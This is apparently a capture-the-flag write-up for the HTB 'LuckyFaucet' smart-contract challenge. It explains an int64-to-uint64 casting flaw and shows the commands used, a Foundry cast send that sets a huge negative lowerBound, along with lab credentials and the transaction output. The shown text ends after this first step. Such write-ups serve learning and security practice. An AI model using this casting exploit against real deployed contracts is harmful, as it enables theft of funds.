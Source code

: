 ```solidity
        // we can safely cast to uint64 since we'll never 
        // have to worry about sending more than 2**64 - 1 wei 
        uint64 amountToSend = uint64(randomInt % (upperBound - lowerBound + 1) + lowerBound); 
        bool sent = msg.sender.send(amountToSend);
        return (sent, amountToSend);
    }
}
```

A `LuckyFaucet` contract contains two functions: `setBounds()` and `sendRandomETH()`. `setBounds()`accepts two 64-bit integers as parameters to represent the new `lowerBound` and `upperBound` values where `lowerBound` cannot exceed `upperBound` and the maximum amount of wei for each variable is limited to 50 million wei and 100 million wei respectively. Given there is 10^18^ wei in one ether, the initial bounds are much too small to achieve the goal of transferring 10 ether in a reasonable amount of time. The solution is to figure out a way to make transferring more ether at a team possible. 

### Solution
With `lowerBound` and `upperBound` existing as signed integers or `int64`, a significantly large negative `lowerBound` value can be set and would result in a large `amountToSend` for `sendRandomETH()`. Even if the result of `upperBound - lowerBound + 1) + lowerBound` is a large negative number, the contract casting it to an unsigned integer or `uint64` will result in a positive number.

With this principle in mind, I set up my Foundry-rs Docker container ([Foundry](https://github.com/foundry-rs/foundry)) with the proper environment variables provided by HTB.

```bash
$ nc 94.237.63.2 38694
1 - Connection information
2 - Restart Instance
3 - Get flag
action? 1

Private key     :  0xa26192c31c6a9630bda5f0da49d5910a57ff3d25523ed0daaba2fa86ee34ecf0
Address         :  0x6E4169b7A6c32528D49835CFdb1B4a6a0d27f3Cf
Target contract :  0xEC9a50cbE92645C537d3645e714eDffD85055917
Setup contract  :  0x83630575314cFDdE1C849b4f28B806381b7A67E6

$ export PK=0xa26192c31c6a9630bda5f0da49d5910a57ff3d25523ed0daaba2fa86ee34ecf0
$ export ATTACKER=0x6E4169b7A6c32528D49835CFdb1B4a6a0d27f3Cf
$ export TARGET=0xEC9a50cbE92645C537d3645e714eDffD85055917
$ export RPC=http://94.237.63.2:43020
```

I then used Foundry's `cast` tool to call the `setBounds()` function to create a significantly negative value for `lowerBound` where `lowerBound` was `-10000000000000000` and `upperBound` was `100000000`.

```bash
$ cast send --private-key $PK --rpc-url $RPC $TARGET "setBounds(int64, int64)" -- -10000000000000000 100000000

blockHash               0x61fc9b1c1d3d6cec7be31df01aad0dba01a5d2acaf583e96ae68f4b21f2414de
blockNumber             2
contractAddress
cumulativeGasUsed       27135
effectiveGasPrice       3000000000
from                    0x6E4169b7A6c32528D49835CFdb1B4a6a0d27f3Cf
gasUsed                 27135
logs                    []
logsBloom               0x000000000000000000000000...
root
status                  1
transactionHash         0x66ca28e9a4c26f24fb81841b133306d64f3dc971b858daa18a74404ddc991288
transactionIndex        0
type                    2
to                      0xEC9a50cbE92645C537d3645e714eDffD85055917
```